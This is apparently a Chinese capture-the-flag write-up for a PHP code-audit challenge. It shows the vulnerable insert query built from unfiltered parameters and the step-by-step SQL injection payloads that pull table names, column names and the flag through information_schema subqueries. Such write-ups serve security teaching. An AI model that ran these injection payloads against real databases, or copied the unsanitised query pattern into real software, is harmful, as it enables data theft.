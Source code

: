 打开靶机先登录，登录身份为管理员，但没找到flag……

那就只能从另一个数据库dpt.sql下手了。

在网页前端操作网点菜单时跳出以下内容：

```sql
insert into sds_dpt set sds_name='',sds_address ='',sds_build_date='',sds_have_safe_card='1',sds_safe_card_num='',sds_telephone='';Incorrect datetime value: '' for column `sds`.`sds_dpt`.`sds_build_date` at row 1
```

那就只能用这个报错信息注入了：

```sql
# dptadd.php中传入参数没有过滤，存在insert注入
$sql="insert into sds_dpt set 
sds_name='".$dpt_name."',sds_address ='".$dpt_address."',sds_build_date='".$dpt_build_year."',sds_have_safe_card='".$dpt_has_cert."',sds_safe_card_num='".$dpt_cert_number."',sds_telephone='".$dpt_telephone_number."';";
$result=$mysqli->query($sql);
echo $sql;
```

手动操作步骤如下：

1. 对dpt_name，先输入1‘,闭合函数
2. 然后，再接上sds_address=(select group_concat(table_name) from information_schema.tables where table_schema=database()) #以查询表名。得到结果为sds_dpt, sds_fl9g, sds_user，重点在sds_fl9g
3. 接着，再接上sds_address=(select group_concat(column_name) from information_schema.columns where table_name = 'sds_fl9g') #,查询表sds_fl9g的列名，得到结果为flag
4. 最后，再接上sds_address=(select flag from sds_fl9g) #， 得到flag的值

![成功](.\代码审计\web303\flag.png)
